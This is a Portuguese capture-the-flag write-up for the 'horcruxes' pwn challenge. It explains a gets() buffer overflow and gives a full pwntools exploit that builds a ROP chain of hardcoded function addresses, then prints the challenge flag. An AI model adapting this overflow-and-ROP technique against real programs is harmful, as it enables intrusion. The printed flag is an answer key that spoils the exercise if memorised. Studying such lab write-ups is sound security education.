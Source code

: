 # horcruxes

###### Solved by @beatriz-a-cardozo, @CupNudous

Este é um CTF sobre pwn, análise de código em C/C++, ROP e Buffer Overflow.

## About the Challenge

O  programa simula um sistema baseado na história de Harry Potter, onde o jogador precisa derrotar Voldemort. Para isso, o sistema pergunta quantos pontos de experiência (XP) foram ganhos. Caso todas as horcruxes não tenham sido coletadas, o jogador não terá XP suficiente para derrotá-lo e falhará na missão. No entanto, ao recuperar todas as horcruxes, o programa soma seus valores e, ao atingir a quantia correta, permite a vitória e exibe a flag.

A vulnerabilidade no código permite a manipulação desse fluxo, forçando a execução de todas as funções horcrux para garantir a "vitória".

A desmontagem do binário com objdump ou gdb revela os endereços das funções horcrux:

>$ objdump -d horcruxes | grep -E "horcrux_"

Isso retornará uma lista de endereços das funções responsáveis por armazenar os valores das horcruxes. Outra abordagem é utilizar o GDB:

>$ gdb ./horcruxes

>(gdb) disas main

Ao analisar o código desmontado, é possível identificar as chamadas para cada função horcrux e anotar seus endereços (mostrados mais abaixo). Dessa forma, esses endereços poderão ser usados na construção da ROP chain.

Cada função retorna um número fixo e, ao chamar todas elas, é possível obter a soma correta para chamar get_flag().

## Solution

A vulnerabilidade está na função gets(), que permite um buffer overflow para sobrescrever o endereço de retorno da função. Isso pode ser explorado para criar uma ROP chain que chama todas as funções horcrux e, em seguida, get_flag().

O payload será composto por:

>Um preenchimento (padding) até alcançar o endereço de retorno

>Endereços das funções horcrux, garantindo que cada uma seja chamada

>Chamando get_flag() com o valor correto no registrador eax

O exploit em Python utilizando pwntools:

```

from pwn import *

p = process("./horcruxes")

padding = b"A" * 40  # Preenchendo até o endereço de retorno
rop_chain = [
    p32(0x0809fe4b),  # Endereço de horcrux1
    p32(0x0809fe6a),  # Endereço de horcrux2
    p32(0x0809fe89),  # Endereço de horcrux3
    p32(0x0809fea8),  # Endereço de horcrux4
    p32(0x0809fec7),  # Endereço de horcrux5
    p32(0x0809fee6),  # Endereço de horcrux6
    p32(0x0809ff05),  # Endereço de horcrux7
    p32(0x0809fffc)   # Endereço de get_flag()
]

payload = padding + b"".join(rop_chain)
p.sendline(payload)
p.interactive()
```

Rodando o código, a flag será revelada após o processo de "derrotar" Voldemort.

[![1-vq-OY8-Swdfl-Phi24-Ot-U-ZBg.webp](https://i.postimg.cc/7Zhkcnv4/1-vq-OY8-Swdfl-Phi24-Ot-U-ZBg.webp)](https://postimg.cc/ykMt39Yp)

> `Magic_spell_1s_4vad4_K3daVr4`
